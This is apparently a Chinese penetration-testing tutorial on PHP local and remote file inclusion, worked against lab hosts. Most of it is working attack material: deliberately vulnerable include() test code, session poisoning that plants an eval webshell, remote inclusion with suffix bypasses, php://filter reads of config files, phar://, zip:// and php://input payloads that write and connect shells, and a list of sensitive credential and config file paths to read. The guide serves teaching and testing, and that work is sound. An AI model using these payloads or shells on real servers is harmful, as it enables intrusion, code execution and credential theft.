


# 201-A11-文件包含漏洞（下）


## 1.PHP中文件包含函数有以下四种：

    require()
    
    require_once()
    
    include()
    
    include_once()

include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

而include_once()，require_once()这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

1.简单利用
测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

测试结果：


通过目录遍历漏洞可以获取到系统中其他文件的内容

## 2.session文件包含漏洞

利用条件：

session的存储位置可以获取。

通过phpinfo的信息可以获取到session的存储位置。

通过phpinfo的信息，获取到session.save_path为/var/lib/php/session：


session中的内容可以被控制，传入恶意代码。
示例：

```
<?php
session_start();
$ctfs=$_GET['ctfs'];
$_SESSION["username"]=$ctfs;
?>
```

漏洞分析

此php会将获取到的GET型ctfs变量的值存入到session中。

当访问http://172.16.3.186/test/ctfs.php?ctfs=ctfs 后，会在/var/lib/php/session目录下存储session的值。

session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。


到服务器的/var/lib/php/session目录下查看果然存在此文件，内容为：


漏洞利用
通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
当访问http://172.16.3.186/test/ctfs.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下存储session的值。


攻击者通过phpinfo()信息泄露或者猜测能获取到session存放的位置，文件名称通过开发者模式可获取到，然后通过文件包含的漏洞解析恶意代码getshell。
http://172.16.3.186/test/incliue.php?filename=/var/lib/php/session/sess_dhbh1olup0okmbagfggm23evd4


同理写入shell
http://172.16.3.186/test/ctfs.php?ctfs=%3C?php%20@eval($_POST[123])?%3E


过文件包含的漏洞解析恶意代码
http://172.16.3.186/test/incliue.php?filename=/var/lib/php/session/sess_fckfs41fifl0se62u0vq4bc0o2


使用cknife连接shell


## 3远程文件包含

PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

```
    allow_url_fopen = On（是否允许打开远程文件）

    allow_url_include = On（是否允许include/require远程文件）
```

## 3.1无限制远程文件包含漏洞

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>

```

http://172.16.3.186/test/incliue.php?filename=http://172.16.3.183/php.txt


通过远程文件包含漏洞，包含php.txt可以解析。


## 3.2 有限制远程文件包含漏洞绕过

测试代码：

```
<?php include($_GET['filename'] . ".html"); ?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。


- a.问号绕过
  http://172.16.3.186/test/yfi.php?filename=http://172.16.3.183/php.txt?
  

- b.#号绕过
  http://172.16.3.186/test/yfi.php?filename=http://172.16.3.183/php.txt%23
  


PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统
函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。


## 3.3 PHP伪协议

## 3.1 php:// 输入输出流

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
php://filter（本地磁盘文件进行读取）

元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。

用法：
http://172.16.3.186/test/incliue.php?filename=php://filter/read=convert.base64-encode/resource=incliue.php 

条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；


同理可读config.inc.php等配置文件http://172.16.3.186/test/incliue.php?filename=php://filter/read=convert.base64-encode/resource=/var/www/html/config/config.inc.php


## 3.2 phar://伪协议

这个参数是就是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。

用法：?file=phar://压缩包/内部文件 phar://xxx.png/shell.php 注意： PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。 
步骤： 写一个info.php，然后用zip协议压缩为info.zip，然后将后缀改为png等其他格式,然后传入服务器。

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

http://172.16.3.186/test/incliue.php?filename=phar://../info.png/info.php

写入shell:  写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式,然后传入服务器。

利用payload
http://172.16.3.186/test/incliue.php?filename=phar://shell.png/shell.php
语句包含该shell


使用Cknife连接该shell
写入shell:  写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式,然后传入服务器。
成功get shell


## 3.3 zip://伪协议

zip伪协议和phar协议类似，但是用法不一样。

用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php。

条件： PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以 linux下PHP > =5.3.0  #在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。


同phar 即可shell




## 3.3 php://input

可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 enctype=”multipart/form-data” 的时候 php://input 是无效的。

用法：?file=php://input 数据利用POST传过去。


写入木马
测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。

如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。

```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

命令执行
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；

```
<?php system(`whoami`) ?>
```

## 4系统中的敏感路径

5、常见的敏感路径：
1 Windows
C:\boot.ini //查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml //IIS 配置文件
C:\windows\repair\sam //存储 windows 系统初次安装的密码
C:\Program Files\mysql\my.ini //mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\windows\php.ini //php 配置信息
C:\windows\my.ini //mysql 配置文件

2 UNIX/Linux
/etc/passwd
/usr/local/app/apache2/conf/httpd.conf //apache2 默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP 相关配置
/etc/httpd/conf/httpd.conf //apache
/etc/php5/apache2/php.ini //ubuntu 系统的默认路径

日志默认路径
(1) apache+Linux 日志默认路径
/etc/httpd/logs/access_log
或者
/var/log/httpd/access_log

(2) apache+win2003 日志默认路径
D:\xampp\apache\logs\access.log
D:\xampp\apache\logs\error.log

(3) IIS6.0+win2003 默认日志文件
C:\WINDOWS\system32\Logfiles

(4) IIS7.0+win2003 默认日志文件
%SystemDrive%\inetpub\logs\LogFiles

(5) nginx 日志文件
日志文件在用户安装目录 logs 目录下
以我的安装路径为例/usr/local/nginx,
那我的日志目录就是在/usr/local/nginx/logs里
web 中间件默认配置
(1) apache+linux 默认配置文件
/etc/httpd/conf/httpd.conf
或者
index.php?page=/etc/init.d/httpd
(2) IIS6.0+win2003 配置文件
C:/Windows/system32/inetsrv/metabase.xml
(3) IIS7.0+WIN 配置文件
C:\Windows\System32\inetsrv\config\applicationHost.config

原文链接：https://blog.csdn.net/qq_39431542/article/details/88628225

burp自带的路径


